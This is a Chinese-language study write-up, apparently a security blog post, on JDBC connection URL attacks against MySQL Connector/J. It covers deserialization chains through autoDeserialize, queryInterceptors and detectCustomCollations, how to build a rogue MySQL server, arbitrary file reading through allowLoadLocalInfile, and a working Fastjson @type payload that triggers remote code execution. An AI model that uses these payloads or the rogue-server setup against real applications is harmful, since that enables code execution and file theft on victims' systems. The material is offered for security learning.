


# JDBC Connection URL Attack

1. 看 \[2024源鲁杯\]\[Round 1\] FastDB wp 时，发现通过 Fastjson + JDBC 组合拳来 RCE。之前天璇的新生赛时，有道 H2 数据库的题目，当时搜索发现它也有很多 JDBC 的漏洞。正好借此机会，把 JDBC 利用方式给学一下。

2. 文章主要参考 su18 师傅的文章：

    > https://su18.org/post/jdbc-connection-url-attack

    应该相当一部分的内容都是其翻译，由于它的文章写于 2021 年，所以后续应该还有补充吧。

## 1. JDBC 和其漏洞的简单概述 - MySQL

### 1.1 JDBC 基本概述

1. 先来回顾一下一个简单的 JDBC 方法：
    ```java
    public static void main(String[] args) throws Exception {
        // 定义一些参数
        String CLASS_NAME = "com.mysql.jdbc.Driver";
        // 关键信息
        String URL        = "jdbc:mysql://localhost:3306/test";
        String USERNAME   = "root";
        String PASSWORD   = "root";
    
        // 加载驱动
        Class.forName(CLASS_NAME);
        // 创建连接对象
        Connection connection = DriverManager.getConnection(URL, USERNAME, PASSWORD);
    
        Statement statement = connection.createStatement();
        statement.execute("select 10086");
        ResultSet set = statement.getResultSet();
        while (set.next()) {
            System.out.println(set.getString(1));
        }
    
        // 释放资源
        statement.close();
        connection.close();
    }
    ```

2. 来看一下 MySQL 官方给 JDBC URL 提供的参数：
    
    有很多，这些参数都可以在 URL 中配置。JDBC URL 的格式为：
    `jdbc:driver://[host][:port]/[database]/[?propertyName1][=propertyValue1][&propertyName2][=propertyValue2]...`。

3. 这里主要重点关注 `autoDeserialize` 参数。
    
    简单概述一下，这个参数使得 JDBC Client 自动反序列化数据。那这就是漏洞的存在点。

### 1.2 漏洞的原理概述

1. 如果攻击者有一台恶意的 MySQL 服务器，同时这台服务器能够返回恶意的序列化二进制字节数据；当客户端配置了 `autoDeserialize` 或者能够控制其使用该参数，那么就可以让 MySQL Client 反序列化这些数据并实现 RCE。
1. 但是实际上客户端肯定不会这么配置，所以可以利用的前提基本上都是客户端的 JDBC URL 要可控。

## 2. 漏洞底层分析

### 2.1 漏洞触发点

1. 在 mysql-connection-java 中，`com.mysql.cj.jdbc.result.ResultSetImpl` 实现 `java.sql.ResultSet` 并重写了 `getObject` 方法：
    
2. 接下来就是要找到能够触发这个 `getObject()` 的方法，因为它不可能凭空触发，使用 `autoDeserialize` 只是漏洞触发的一个必要条件之一。

### 2.2 kick-off1 - `queryInterceptors`

1. 研究员们发现了一个新的 property：`queryInterceptors`：
    
    其实原理有点像 SpringMVC 的拦截器，对数据进行与操作，或者重写较慢的查询，以及查询语句日志记录等等。
    SpringMVC 的 Interceptors 有三个流程，分别是 `preHandle()`、`postHandle()` 和 `afterCompletion`；其实这里的 `queryInterceptors` 同样也有相似的流程，即：`init` -> `preProcess` -> `postProcess` -> `destory`。
    用 `queryInterceptors` 指定具体的 `Interceptors`，这些 `Interceptors` 都要实现接口 `com.mysql.cj.interceptors.QueryInterceptor`。

2. 向上寻找 `getObject` 调用处：
    
    跟进，然后再向上找，结果就一处：
    

    
    很巧合，正好所在的类就是一个 `queryInterceptor`。
    它的 `preProcess()`/`postProcess()` 也调用了 `ServerStatusDiffInterceptor#populateMapWithSessionStatusValues`：
    

3. 到此，第一个 kick-off 就差不多找到了，所以现在的关键就是怎么把反序列化数据注入到这里面对应参数了。

### 2.3 kick-off2 - `detectCustomCollations`

1. codeplutos 使用了修改的 MySQL plugin 来创建恶意 MySQL 服务端。其中在他的项目中，使用了新的链：`detectCustomCollations`。

    > https://github.com/codeplutos/MySQL-JDBC-Deserialization-Payload

    首先来看一下这个参数的官方介绍：
    
    然后就是调用点，来看 `com.mysql.jdbc.ConnectionImpl#buildCollationMapping`：
    
    同样也调用了该方法。
    然后跟进，看他究竟调用了那个方法：
    

### 2.4 两条链的前提和使用版本

1. 上述两条链的 `getObject()` 调用对象，都是执行 SQL 语句后的 `ResultSet`，他们各自所调用的 SQL 语句分别为：
    	1. `SHOW SESSION STATUS`
    	1. `SHOW COLLATION`

    因此所需的恶意服务端也需要能响应这两个语句，同时对应的 `ResultSet` 含序列化内容且能够被正常反序列化。所以下文会提到如何构造恶意的 MySQL 服务端。

2. 两条链所对应的使用版本如下：

    > ServerStatusDiffInterceptor：
    > 
    > detectCustomCollations（8.x 应该也不可用，个人测试 8.0.15 不行）：
    > 

## 3. 构造恶意 MySQL 服务器

1. su18 师傅总结了常见的三种方法：
    1. 从头开始写一个 MySQL 服务端，该服务端能够兼容 MySQL 的协议和语法（工作量太大）。
    2. 用 Wireshark 抓 jdbc connection 过程中的所有包，分析客户端和服务端的通信过程，包括握手、授权、语句执行等等。自己实现所有的操作只为了返回 payload （fnmsd 师傅的 MySQL_Fake_Server 项目是这么实现的）。
    3. 使用 MySQL plugin 来完成该工作（codeplutos 师傅的 MySQL-JDBC-Deserialization-Payload 是这么实现的）。
2. su18 师傅个人使用“数据库中间件”的方式自己搭建一个恶意的 MySQL 服务端。
    它先是使用了阿里的开源项目：[cobar](https://github.com/alibaba/cobar)
    这是一个用于数据库分片的，介于客户端和服务器之间的代理。对于客户端而言，cobar 就像是服务端，而对于服务端而言，cobar 也像是客户端。所以 cobar 能够完美地控制 SQL 语句的执行结果。

### 3.1 使用 cobar 手动搭建

1. 翻了一下 cobar 的项目，发现它不仅停止维护了，而且也没有可利用的版本。因此本人就 su18 师傅的搭建过程，总结一下思路。

#### 3.1.1 准备好 PoC 和 MySQL 服务端

1. 首先要根据客户端的依赖，想好打什么 PoC，例如客户端有 CC 依赖，那就事先准备 CC 链。

2. 然后准备 MySQL 服务端，向数据库中插入数据，不过插入数据也不是随便就插的，以 `detectCustomCollations` 为例，来分析这条链的数据应该怎么准备：
    
    可以看到，`key = 3`，所以数据库中第三列的数据需要存放序列化数据，也就输说要保证位置对齐。
    同样的，对于 `queryInterceptors`，其 `key = 1`，那么就考虑第一列了。

3. 所以本地可以写一个脚本，先向数据库写入序列化数据：
    ```java
    public static void main(String[] args) throws Exception {
    
    	String CLASS_NAME = "com.mysql.jdbc.Driver";
    	String URL        = "jdbc:mysql://localhost:3306/test";
    	String USERNAME   = "root";
    	String PASSWORD   = "123456";
    
    	Class.forName(CLASS_NAME);
    	Connection connection = DriverManager.getConnection(URL, USERNAME, PASSWORD);
    
    	File file   = new File("/Users/phoebe/IdeaProjects/ysoserial-su18/CC1WithTransformedMap.bin");
    	int  length = (int) file.length();
    
    	FileInputStream stream = new FileInputStream(file);
    
        // 注意这个表中，第三列的数据类型为 blob
    	PreparedStatement statement = connection.prepareStatement("INSERT INTO evil (`a`,`b`,`c`) VALUES (1,1,?)");
    	statement.setBlob(1, stream, length);
    	statement.execute();
    
    	statement.close();
    	connection.close();
    }
    ```

#### 3.1.2 配置代理服务器

1. 核心思想就是，当客户端传来[两条链所对应的前置 SQL 执行语句](#2.4 两条链的前提和使用版本)时，cobar 中间件将 SQL 语句进行修改，保证查询的结果 `ResultSet` 符合链的调用，要位置对齐。这里 su18 给出的方案是**直接修改 cobar 源码**，只要接受到了那两个查询语句，就将其直接修改以返回满足条件的 `ResultSet`。
    例如，上述例子中将序列化数据存在第三列，那么只要将 `SHOW COLLATION` 改为执行 `select * from evil;`，就能让 `ResultSet` 的第三列含有序列化数据。
2. 其他的就是代理服务器的正常配置。

### 3.2 使用 [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server) 构造恶意 MySQL 服务器

1. 直接将项目 clone 下来，官方给出了 config 的说明，这里贴一下我的：
    
    注意 `javaBinPath` 要具体到 `java.exe`。
2. 这里打的是 CC6 链，结果如下：
    
3. 注意用户名，用户名可以在 url 中指定，为 `user=xxx`，这个工具连接是不需要密码的。
4. 项目需要结合 [ysoserial](https://github.com/frohoff/ysoserial)，所以如果需要打 ysoserial 的链，还需要自定义链（TODO 找个时间分析一下 ysoserial 的源码）。

### 3.3 使用 **[MySQL-JDBC-Deserialization-Payload](https://github.com/codeplutos/MySQL-JDBC-Deserialization-Payload)**，伪造插件构造恶意 MySQL 服务器

1. todo

## 4. 任意文件读取漏洞

1. 除了上述通过操纵 JDBC URL 来实现反序列化漏洞，还有一个已经披露了十年多的漏洞：任意文件读取。

### 4.1 sink

1. 触发点在于这个函数：
    

### 4.2 kick-off `allowLoadLocalInfile`

1. 有关 MySQL Client 任意文件读取的分析，可以详见这篇文章：

    > https://lorexxar.cn/2020/01/14/css-mysql-chain/#/Load-data-infile

    LoRexxar 师傅从原理到利用讲的都很细节。这里主要讲针对 JDBC 的内容。

2. JDBC 给出了一个属性：`allowLoadLocalInfile`，该属性能够允许 MySQL Client 能够执行 `load data local infile` 读取文件命令。来看一下官方对其的说明：
    
    这个参数可以在客户端进行指定。

3. 本人在复现时，所使用的 mysql-connector/j 5.1.40 版本，对该参数是默认开启的：
    

4. 除了读取文件，由于底层它是使用 URL 类发起的文件请求，那么还可以使用其他请求，这无疑扩大了利用面，详见：

    > https://blog.csdn.net/fnmsd/article/details/117436182

    还可以当 SSRF 使用。

TODO：su18 提到的利用场景学习

## 5. Fastjson + JDBC 组合拳

1. JDBC Connection URL Attack 的利用要求有 URL 的控制权，但是如果再向前一步，如果有**发起 JDBC 的控制权呢？**基于上述思路，将其和其它的反序列化漏洞结合，有时就可以绕过一些过滤。
2. 这里就和 Fastjson 反序列化漏洞结合。
3. 客户端要有 mysql-connector-java 依赖、Fastjson 依赖和可以打的链依赖（这里以 CC 为例）。同时客户端有一个 Fastjson 反序列化口：
    ```java
    @Test
    public void testFastjsonJDBC() throws Exception {
    String payload = "{\n" +
        "\t\"name\": {\n" +
        "\t\t\"@type\": \"java.lang.AutoCloseable\",\n" +
        "\t\t\"@type\": \"com.mysql.jdbc.JDBC4Connection\",\n" +
        "\t\t\"hostToConnectTo\": \"127.0.0.1\",\n" +
        "\t\t\"portToConnectTo\": 3306,\n" +
        "\t\t\"info\": {\n" +
        "\t\t\t\"user\": \"EndlessShw\",\n" +
        "\t\t\t\"password\": \"\",\n" +
        "\t\t\t\"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\",\n" +
        "\t\t\t\"autoDeserialize\": \"true\",\n" +
        "\t\t\t\"NUM_HOSTS\": \"1\"\n" +
        "\t\t}\n" +
        "\t}\n";
    JSON.parseObject(payload);
    }
    ```

4. 构造恶意 MySQL 服务器，这里还是用的 [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)。
    
    （弹了一万个计算器，乐)

